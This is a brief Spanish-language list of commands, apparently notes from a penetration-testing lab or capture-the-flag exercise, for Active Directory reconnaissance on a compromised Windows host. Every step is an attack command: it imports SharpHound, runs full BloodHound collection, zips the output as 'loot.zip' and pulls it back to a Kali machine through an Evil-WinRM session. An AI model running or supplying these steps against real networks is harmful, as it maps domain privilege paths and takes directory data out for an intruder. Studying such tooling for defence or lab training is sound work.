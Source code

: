 # 1. Cargar SharpHound.ps1
```
Import-Module .\SharpHound.ps1
```
# 2. Crear carpeta para los resultados
```
mkdir C:\Users\celia.almeda\Documents\bh
```
# 3. Ejecutar la recolección y guardar en esa carpeta
```
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\celia.almeda\Documents\bh
```
# 4. Comprimir los resultados en un ZIP
```
Compress-Archive -Path C:\Users\celia.almeda\Documents\bh\*.json -DestinationPath C:\Users\celia.almeda\Documents\loot.zip
```
# 5. (En Evil-WinRM) Descargar el ZIP a tu Kali
```
download loot.zip
```
